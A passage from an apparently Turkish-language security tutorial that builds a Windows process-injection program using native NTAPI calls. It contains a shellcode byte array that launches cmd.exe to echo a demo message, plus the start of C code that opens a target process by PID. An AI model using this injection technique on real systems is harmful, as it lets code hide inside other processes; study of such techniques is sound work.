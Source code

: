 ```c

#pragma endregion
```

Ardından **main.c** projemizi kodlayalım:

```c
#include "utils.h"

/*
    cmd.exe /K "echo NTAPI Injection with bekoo"
*/
char Shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x4e\x54\x41\x50\x49\x20\x49\x6e\x6a\x65"
"\x63\x74\x69\x6f\x6e\x20\x77\x69\x74\x68\x20\x62\x65\x6b"
"\x6f\x6f\x22\x00";
size_t  ShellcodeSize = sizeof(Shellcode);

int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: .\\injection.exe <PID>");
        return -1;
    }
    DWORD PID = atoi(argv[1]);
    HANDLE HandleProcess = NULL;
    HANDLE HandleThread = NULL;
    HMODULE ntDLL = NULL;
    PVOID RemoteBuffer = NULL;
    size_t bytesWritten = 0;
    OBJECT_ATTRIBUTES  objAttr = { sizeof(objAttr), NULL };
    CLIENT_ID CID = { (HANDLE)PID, NULL };
	NTSTATUS Status = STATUS_SUCCESS;

    /* Get handle to ntdll and kernel32 */
    ntDLL = GetModuleHandleA("ntdll.dll");
    if (ntDLL == NULL) {
        printf("Failed to get handle for NTDLL! Error Code: 0x%lx\n", GetLastError());
        return -1;
    }

    /* NtCloseHandle */
    fn_NtClose ntClose = (fn_NtClose)GetProcAddress(ntDLL, "NtClose");

    /* NTOpenProcess */
```
